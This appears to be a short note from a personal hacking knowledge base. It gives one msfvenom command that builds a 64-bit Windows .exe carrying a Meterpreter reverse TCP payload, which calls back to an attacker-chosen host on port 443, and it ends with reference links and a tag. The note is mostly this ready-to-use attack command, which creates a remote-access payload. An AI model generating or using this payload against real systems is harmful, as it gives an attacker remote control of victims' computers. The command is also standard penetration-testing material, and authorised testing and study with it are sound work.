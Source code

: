 # MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

# References
- [20221003150771](/zet/20221003150771/) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

